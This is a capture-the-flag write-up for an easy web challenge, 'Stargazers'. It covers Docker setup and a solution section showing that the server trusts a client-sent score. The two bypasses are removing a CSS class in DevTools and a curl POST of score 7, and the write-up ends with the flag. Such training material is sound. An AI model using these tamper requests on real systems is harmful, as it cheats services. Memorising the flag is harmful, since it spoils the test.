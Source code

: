 # Stargazers

#### Category: Web Exploitation

#### Difficulty: Easy

#### Description: Catching stars is incredible.  All you need to do is collect seven of them, and I will give you the reward.

#### Preview:

![image](https://github.com/user-attachments/assets/a59a2bff-7c28-4829-a11f-01bbd2bb1c1b)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:8080`

## Solution
<details>

The web challenge needs the user to gather seven stars in order to earn the flag, which they may achieve by just clicking them.  However, there is a catch: if the score hits 6, the star will avoid the cursor and prevent the user from clicking it. We should examine the frontend source code to gather additional insights.

![image](https://github.com/user-attachments/assets/90a05488-0ca4-499a-bd36-6bb68825f8f4)

### Source Code (JS)

The 'unclickable' class preventing the object from being clicked when the score reaches to 6.

```javascript
if (score === 6) {
    object.classList.add('unclickable');
    object.style.backgroundImage = `url('/static/star.png')`; 
    moveAwayFromCursor(object);
}
```

Server accepts JSON data as score directly from the client side without proper validation.

```javascript
fetch('/victory', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
    body: JSON.stringify({ score: score }),
  })
  .then(response => response.json())
  .then(data => {
      messageBox.textContent = data.message;
    
    if (data.message.includes("ICTF25{")) {
      messageBox.textContent = "Congrats! Here's Your Flag: " + data.message;
  }
})
.catch(error => {
  console.error('Error:', error);
  messageBox.textContent = 'Error submitting score.';
});
```

To solve this challenge, there's two solution:

### Method 1
Removing the 'unclickable' class using DevTools.

`document.querySelector('.unclickable').classList.remove('unclickable');`

### Method 2
Sending the score data as JSON directly to server side.

`curl -X POST http://localhost:5000/victory -H 'Content-Type: application/json' -d '{"score":7}'`

We will obtain the flag by using either of these solutions.

<br>

![image](https://github.com/user-attachments/assets/e95af152-47dd-4947-be97-00dc9d27ac8b)

### Flag
> ICTF25{0e9ce052105ac660739950879a243734615e41baca30fa2892646f3bc9307c8e}

</details>
